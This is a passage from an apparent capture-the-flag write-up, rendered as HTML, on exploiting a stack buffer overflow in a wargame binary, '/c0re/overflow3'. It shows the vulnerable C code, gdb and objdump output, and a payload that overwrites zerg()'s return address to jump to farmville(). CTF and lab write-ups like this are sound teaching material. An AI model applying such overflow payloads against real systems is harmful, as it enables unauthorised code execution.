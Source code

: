         <span class="hljs-keyword">for</span> (i = <span class="hljs-number">0</span>; i &lt; <span class="hljs-built_in">strlen</span>(argv[<span class="hljs-number">0</span>]); i++)
        {
                <span class="hljs-keyword">if</span> (!<span class="hljs-built_in">isalnum</span> (argv[<span class="hljs-number">0</span>][i]) &amp;&amp; <span class="hljs-built_in">strchr</span>(<span class="hljs-string">"-_/"</span>,argv[<span class="hljs-number">0</span>][i]) == NULL)
                        <span class="hljs-keyword">return</span> -<span class="hljs-number">2</span>;
        }

        zerg (argv[<span class="hljs-number">1</span>]);

        <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>;
}</code></pre>

<p>So our strategy is now intuitive. We will overflow the <code>zerg()</code> buffer, overwrite the return address to the address of <code>farmville()</code>, and then exploit the buffer. You may wonder how we feed a second shellcode into the <code>farmville()</code> without extensively manipulating the stack pointers. Luckily enough, the input of <code>farmville()</code> is conveniently from <code>stdin</code>, like <code>c = getc(stdin)</code>. So we can just pipe our two exploit scripts through commandline argument and <code>stdin</code> seperately, something like <code>(cat farmville.sol ; cat) | /c0re/overflow3 "$( &lt; zerg.sol)"</code> <br>
OK, now let’s start the exploit. <br>
First, we need to get pass the several checks in <code>zerg()</code>. By reading the source code, there are three criteria that our code must meet :</p>

<ul>
<li>Input must not be longer than 24 chars</li>
<li>Sum of input must be divisible by 256</li>
<li>First 10 character has to be <code>RUSHKEKEKE</code></li>
</ul>

<p>Addition to the above three requirements, we also want our input to redirect the return address to the call address of <code>farmville()</code>, which can be found via <code>objdump -d</code>, the result is like : <br>
 <code> <br>
 08048799 &lt;farmville&gt;: <br>
 8048799:       55                      push   %ebp <br>
 804879a:       89 e5                   mov    %esp,%ebp <br>
 804879c:       81 ec e4 00 00 00       sub    $0xe4,%esp <br>
 80487a2:       eb 25                   jmp    80487c9 &lt;farmville+0x30&gt; <br>
 ... <br>
</code> <br>
 The length of buffer can be get by doing  <br>
 <code>(gdb) disas zerg</code></p>



<pre class="prettyprint"><code class="language-... hljs r"><span class="hljs-keyword">...</span>
<span class="hljs-number">0x0804869e</span> &lt;+<span class="hljs-number">3</span>&gt;:     sub    $<span class="hljs-number">0xc</span>,%esp
<span class="hljs-keyword">...</span></code></pre>

<p><code>(gdb) print 0xc</code>  <br>
<code>$1 = 12</code> <br>
so our buffer is 12 char long, and the next 4 byte is the <code>ebp</code> pointer, and the next 4 byte is the return address we want to overwrite. <br>
 So the payload would be something like:  <br>
 <code>RUSHKEKEKE******\x99\x87\x04\x08</code> <br>
 where the <code>*</code> would make the whole payload divisible by 256. <br>
If you have some easy access to Ascii sum method, you can just do the math and find the exact <code>char</code> should be put in <code>*</code>, otherwise let’s just first try some arbitrary thing in  <code>gdb</code>: <br>
 <code>run $(python -c 'print ("RUSHKEKEKE" +"A" * 6+"\x99\x87\x04\x08")')</code> <br>
 and set a break point at where the comparison is made <br>
 <code>0x08048729 &lt;+142&gt;:   je     0x804873f &lt;zerg+164&gt;</code> <br>
 <code>(gdb) b *0x08048729</code> <br>
 <code>Breakpoint 2 at 0x8048729</code></p>
